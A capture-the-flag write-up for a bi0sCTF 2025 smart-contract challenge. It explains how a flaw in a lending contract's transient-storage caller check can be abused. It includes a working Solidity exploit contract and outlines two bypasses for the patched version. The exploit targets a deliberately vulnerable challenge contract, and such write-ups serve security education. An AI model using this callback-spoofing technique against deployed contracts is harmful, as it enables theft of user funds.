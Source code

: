 ```yaml
---
title: Blockchain - Transient Heist (Revenge)
description: 2025 | bi0sCTF | Blockchain
tags:
    - smart contract
    - transient storage
---
```


## Description

> [Challenge Files](https://github.com/teambi0s/bi0sCTF/blob/bd6d2efbf5c8e69e5d9c06fcbfadd7733cdaffae/2025/BLOCKCHAIN/Transient-Heist/Handout/transient-heist-chall-files.zip)

### Revenge

They said memory fades — but some secrets linger just long enough.                       
A value set, then forgotten... unless you catch it mid-breath.                         
No storage, no logs, yet the truth lies between one call and the next.                        
Can you see what was never meant to stay?

> [Challenge Files](https://github.com/teambi0s/bi0sCTF/blob/bd6d2efbf5c8e69e5d9c06fcbfadd7733cdaffae/2025/BLOCKCHAIN/Transient-Heist-Revenge/Handout/transient-heist-revenge-chall-files.zip)

## Solution

- There are three tokens: WETH, USDC, and SAFEMOON. The initial ratio of their amounts in Uniswap V2 pairs is `1:2500:15087507543753773`. The player initially has 80001 ethers.
- There is an USDSEngine contract, which can accept deposits and mint USDS tokens. Users can choose either function `depositCollateralAndMint` or function `depositCollateralThroughSwap` to make a deposit. The goal of the challenge is to let the player's collateral value of both WETH and SAFEMOON in the USDSEngine excced `keccak256("YOU NEED SOME BUCKS TO GET FLAG")`.
- If the function `depositCollateralThroughSwap` is chosen, it will swap tokens via the Bi0sSwapPair and update the user's deposit status in the callback function `bi0sSwapv1Call`.

    ```js
    function depositCollateralThroughSwap(address _otherToken,address _collateralToken,uint256 swapAmount,uint256 _collateralDepositAmount)public acceptedToken(_otherToken)returns (uint256 tokensSentToUserVault){
        IERC20(_otherToken).transferFrom(msg.sender, address(this), swapAmount);
        IBi0sSwapPair bi0sSwapPair=IBi0sSwapPair(bi0sSwapFactory.getPair(_otherToken, _collateralToken));
        assembly{
            tstore(1,bi0sSwapPair)
        }
        bytes memory data=abi.encode(_collateralDepositAmount);
        IERC20(_otherToken).approve(address(bi0sSwapPair), swapAmount);
        bi0sSwapPair.swap(_otherToken, swapAmount, address(this),data);
        assembly{
            tokensSentToUserVault:=tload(1)
        }
    }

    function bi0sSwapv1Call(address sender,address collateralToken,uint256 amountOut,bytes memory data) external nonReEntrant {
        uint256 collateralDepositAmount=abi.decode(data,(uint256));
        address bi0sSwapPair;
        assembly{
            bi0sSwapPair:=tload(1)
        }
        if(msg.sender!=bi0sSwapPair){
            revert USDSEngine__Only__bi0sSwapPair__Can__Call();
        }
        if(collateralDepositAmount>amountOut){
            revert USDSEngine__Insufficient__Collateral();
        }
        uint256 tokensSentToUserVault=amountOut-collateralDepositAmount;
        user_vault[sender][collateralToken]+=tokensSentToUserVault;
        assembly{
            tstore(1,tokensSentToUserVault)
        }
        collateralDeposited[sender][collateralToken]+=collateralDepositAmount;
    }
    ```

- The function `bi0sSwapv1Call` uses the value of transient storage slot 1 to verify the caller, and then updates the transient storage slot 1 with `tokensSentToUserVault`. In other words, if we can let the value of `tokensSentToUserVault` be a controllable address, we would be able to call this function arbitrarily. Meanwhile, the function `depositCollateralThroughSwap` only checks if `_otherToken` is accepted token, so the `_collateralToken` can be any token. Therefore, we can deploy a controllable token and its corresponding Bi0sSwapPair, enabling us to manipulate the argument `amountOut` in function `bi0sSwapv1Call` and gain control over it.

    ??? note "Exploiter"

        ```solidity
        contract Exploiter {
            Setup setup;
            IBi0sSwapFactory factory;

            WETH weth;
            SafeMoon safeMoon;

            USDSEngine usdsEngine;

            constructor(Setup _setup) payable {
                require(msg.value == 2);
                setup = _setup;
                factory = _setup.bi0sSwapFactory();
                weth = _setup.weth();
                safeMoon = _setup.safeMoon();
                usdsEngine = _setup.usdsEngine();

                _setup.setPlayer(address(this));
            }

            function exploit() external {
                SafeMoon fake = new SafeMoon(type(uint).max);
                address fakePair = factory.createPair(address(fake), address(weth));
                uint addressAmount = uint160(address(this));
                fake.transfer(fakePair, addressAmount * 2);
                weth.deposit{value: 2}(address(this));
                weth.transfer(fakePair, 1);
                IBi0sSwapPair(fakePair).addLiquidity(address(this));

                weth.approve(address(usdsEngine), 1);
                usdsEngine.depositCollateralThroughSwap(address(weth), address(fake), 1, 0);

                uint256 FLAG_HASH = uint256(keccak256("YOU NEED SOME BUCKS TO GET FLAG")) + 1;
                usdsEngine.bi0sSwapv1Call(address(this), address(weth), FLAG_HASH + uint160(address(this)), abi.encode(FLAG_HASH));
                usdsEngine.bi0sSwapv1Call(address(this), address(safeMoon), FLAG_HASH + uint160(address(this)), abi.encode(FLAG_HASH));
            }
        }
        ```

- The revenge version mainly updates the modifier of the function `depositCollateralThroughSwap` from `acceptedToken(_otherToken)` to `acceptedToken(_collateralToken)`. So, we can not use unverified `_collateralToken`. However, since the `_otherToken` is not checked, we can create a token, whose `approve` function calls Bi0sSwapPair's `swap` function with controllable data.

    ```diff
    - function depositCollateralThroughSwap(address _otherToken,address _collateralToken,uint256 swapAmount,uint256 _collateralDepositAmount)public acceptedToken(_otherToken)returns (uint256 tokensSentToUserVault){
    + function depositCollateralThroughSwap(address _otherToken,address _collateralToken,uint256 swapAmount,uint256 _collateralDepositAmount)public acceptedToken(_collateralToken)returns (uint256 tokensSentToUserVault){
        IERC20(_otherToken).transferFrom(msg.sender, address(this), swapAmount);
        IBi0sSwapPair bi0sSwapPair=IBi0sSwapPair(bi0sSwapFactory.getPair(_otherToken, _collateralToken));
        assembly{
            tstore(1,bi0sSwapPair)
        }
        bytes memory data=abi.encode(_collateralDepositAmount);
        IERC20(_otherToken).approve(address(bi0sSwapPair), swapAmount);
        bi0sSwapPair.swap(_otherToken, swapAmount, address(this),data);
        assembly{
            tokensSentToUserVault:=tload(1)
        }
    }
    ```

- Or, with the initial 80,000 ethers, we can exchange for `0x38c0bdc4ade139d62d90d2ad2c3f98efb` SAFEMOON tokens, which is slightly less than a regular 20-byte address. However, we can create a contract with an address starting with `0x0000`, making its address numerically smaller than the amount of SAFEMOON we can obtained. Then, we can use the previously described method to gain control over the function `bi0sSwapv1Call`.

### Flag

> bi0sctf{tx:0xa05f047ddfdad9126624c4496b5d4a59f961ee7c091e7b4e38cee86f1335736f}

**Revenge**

> bi0sctf{tx:0xa05f047ddfdad9126624c4496b5d4a59f961ee7c091e7b4e38cee86f1335736f:v2}
